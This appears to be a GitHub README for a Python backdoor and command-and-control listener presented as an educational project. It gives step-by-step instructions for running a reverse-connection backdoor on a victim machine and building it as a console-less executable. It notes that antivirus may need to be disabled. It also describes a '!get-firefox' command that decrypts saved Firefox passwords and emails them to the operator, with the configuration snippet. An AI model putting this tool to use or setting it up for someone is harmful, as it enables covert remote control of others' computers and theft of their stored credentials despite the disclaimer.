 
# 🔍 Backdoor & C2 Listener (Educational Project)

This project combines **two Python scripts** to demonstrate, for educational purposes, how a **Backdoor** and a basic **Command & Control (C2)** system work:

- `backdoor.py`: runs on the victim machine and establishes a connection to the attacker.  
- `c2_listener.py`: runs on the attacker machine and allows remote command execution.

The purpose of this project is to **teach and learn offensive and defensive security concepts**, helping security analysts and students understand how these techniques operate and develop **countermeasures**.

> ⚠️ Certain functionalities of `backdoor.py` are **focused on Windows systems**. It is recommended to run it on Windows for full compatibility.  

---

## 🖼️ Architecture

```text
+----------------+           +----------------+
| Victim Machine | --------> | Attacker C2    |
| (backdoor.py)  |           |(c2_listener.py)|
+----------------+           +----------------+
        |                           ^
        | Remote Command / Data     |
        |-------------------------->|
        |                           |
```



---

## 🚀 Features

- 📡 Reverse connection between client (victim) and server (attacker)  
- 💻 Remote command execution  
- 📂 Use the SMTP protocol to send information from accounts saved in Firefox  
- 🔐 Simple communication (no encryption, for educational purposes)  
- 🛠️ Easy-to-understand Python code, easy to modify  
- 💡 Special command `!get-firefox` in the C2 sends an email with saved Firefox account information (requires configuration, see below)  

---

## 📦 Installation

```bash
# Clone the repository
git clone https://github.com/RandyNin/c2-backdoor.git
cd c2-backdoor

# Install dependencies
pip install -r requirements.txt
pip install requests  # required for backdoor functionality
````

---

## ⚡ Usage

> **Note:** The scripts do not use command-line parameters.

### 1️⃣ On the attacker machine (listener):

```bash
python c2_listener.py
```

### 2️⃣ On the victim machine (backdoor):

```bash
python backdoor.py
```

> **Optional (Recommended for testing in controlled environments):**  
> Compile `backdoor.py` with PyInstaller to avoid Python dependency and required libraries:
> 
> ```bash
> pyinstaller --onefile --noconsole backdoor.py
> ```
> 
> This will create a standalone executable.

> **Educational Warning:** To ensure the backdoor runs on the victim machine, antivirus protection may need to be disabled. Use only in **controlled and authorized environments**.

---

## 💡 Firefox Account Export Function

The `!get-firefox` command in the C2 listener will send saved Firefox account information via email. To use this feature:

1. Modify the following lines in `c2_listener.py` with your own email configuration:
    

```python
self.send_email(
    "Decrypted Firefox Passwords",
    passwords,
    '<Your email Address>',
    ["<Destination addresses>"],
    "<Email app password>"
)
```

2. Create an **App Password** for your email (Gmail, Outlook, etc.) and use it in the `"<Email app password>"` field.
    
3. Ensure `requests` library is installed before compiling or running the `backdoor.py`.
    

---

## 📚 Requirements

- Python **3.10+**
    
- `requests` library (for Windows Firefox functionality)
- 
-  `termcolor` library (for terminal color display)
    

---

## ⚠️ Disclaimer

This software is provided **for educational purposes only**.  
It should only be used in **controlled and authorized environments**.  
The author is **not responsible for any misuse** of this tool.

